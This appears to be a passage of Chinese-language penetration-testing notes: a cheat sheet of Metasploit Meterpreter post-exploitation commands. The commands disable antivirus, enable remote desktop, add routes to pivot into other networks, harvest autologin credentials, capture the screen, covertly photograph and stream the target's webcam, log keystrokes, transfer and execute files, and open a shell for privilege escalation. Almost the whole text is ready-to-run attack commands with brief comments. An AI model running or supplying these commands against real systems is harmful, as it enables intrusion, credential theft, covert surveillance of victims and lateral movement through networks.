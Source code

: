```bash
run post/windows/manage/killav # 关闭杀毒(其他命令自己探索)
run post/windows/manage/enable_rdp # 开启目标机器的远程桌面

run post/windows/manage/autoroute # 查看目标机的本地子网情况
# 接着进行跳转
background # 把当前终端隐藏在后台
route add 192.168.0.111 255.255.255.0 1  # 给指定会话id添加路由(可以添加其他地址到被攻陷的机器的路由表上，借助被攻陷的机器来攻击其他网络)
route print    # 查看路由添加结果
# 接着查看
run post/windows/gather/enum_logged_on_users   # 列举当前有多少用户登录了主机
run post/windows/gather/enum_logged_on_users   # 继续列举安装在目标机器上的应用
run post/windows/gather/credentials/windows_autologin  # 很多用户习惯将计算机设置自动登录(抓取自动登录的密码)，如果看不到任何信息，就需要拓展插件Expia
load espia # 先加载该插件
screengrab    # 就可以抓取此时目标机器的屏幕截图
screenshot    # 也是截屏

webcam snap  # 打开目标机器摄像头，拍摄一张照片
webcam_stream  # 开始摄像头(直播模式)，在浏览器输入给出的url发那个问即可

shutdown	   # 关机

shell		# 进入目标系统的shell下面
exit        # 停止meterpreter会话（也可以停止shell并返回到meterpreter）
quit		# 关闭当前的Meterpreter会话，返回MSF终端





########## 文件系统命令
pwd	/   getwd  # 查看目标机器当前目录 
getlwd    # 查看本机当前目录 
cd	# 切换目录(注意\的转义)
ls	# 查看当前目录内容
search	-f *.txt	  -d c: # 搜索文件（search -h 查看帮助） -d指定目录， -f搜索模式
upload	/var/www/test.txt c:\  # 上传文件到目标机器的路径
download	 c:\test.txt  # 下载文件(默认保存到msf的目录)
cat	# 查看文件内容
edit # 编辑文件
execute	-f c:\\windows\\system32\\calc.exe  # 执行文件


run keylogrecorder   .... # 键盘记录？
```

###### 后渗透攻击：提权
- 纵向提权
- 横向提权

```bash
# 获取Meterpreter Shell之后，查看我们是什么权限
# Meterpreter 下输入
shell    # 进入目标的cmd
whoami /groups  # 查看当前权限
## 下面就开始进行提权了
# 用本地溢出漏洞，利用现成的exploit
```
